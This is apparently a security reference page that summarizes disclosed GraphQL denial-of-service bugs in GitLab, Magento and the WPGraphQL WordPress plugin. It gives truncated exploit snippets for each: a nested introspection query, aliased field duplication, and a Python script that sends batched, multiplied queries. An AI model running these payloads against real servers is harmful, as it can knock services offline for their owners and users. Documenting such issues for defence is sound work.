 {% embed url="https://hackerone.com/reports/1000567" %}

* **A Circular Introspection Query (GitLab):** A circular introspection query was used to cause a denial of service on a GitLab server . The attack involved creating two fragments that reference each other on the `__Schema` type, leading to an infinite loop and freezing the server . The code snippet for this exploit is:

```graphql
query {
    __schema {
        types {
            fields {
                type {
                    fields {
                        type {
                            --snip--
                        }
                    }
                }
            }
        }
    }
}
```

* **Aliases for Field Duplication (Magento):** A vulnerability using aliases to duplicate fields led to a denial of service . The exploit involves using aliases to send duplicate fields in a query, which can cause the server to consume more resources than necessary .

```graphql
query {
    alias1: countries {
        full_name_english
        full_name_english # continues 1000s of times
        --snip--
    }
    
    alias2: countries {
        --snip--
    }
    
    alias3: countries {
        --snip--
    }
}
```

* **Array-Based Batching for Field Duplication (WPGraphQL):** An array-based batching technique was used to duplicate fields and cause a denial of service on WPGraphQL, a WordPress plug-in . The following code is a snippet of an exploit that demonstrates the vulnerability:

```python
payload = 'content \n comments { \n nodes { \n content } }' * FORCE_MULTIPLIER
query = {'query':'query { \n posts { \n nodes { \n ' + payload + '} } }'}
for _ in range(0, CHAINED_REQUESTS):
    queries.append(query)
r = requests.post(WORDPRESS_URL, json=queries)
print('Time took: {}'.format(r.elapsed.total_seconds()))
```
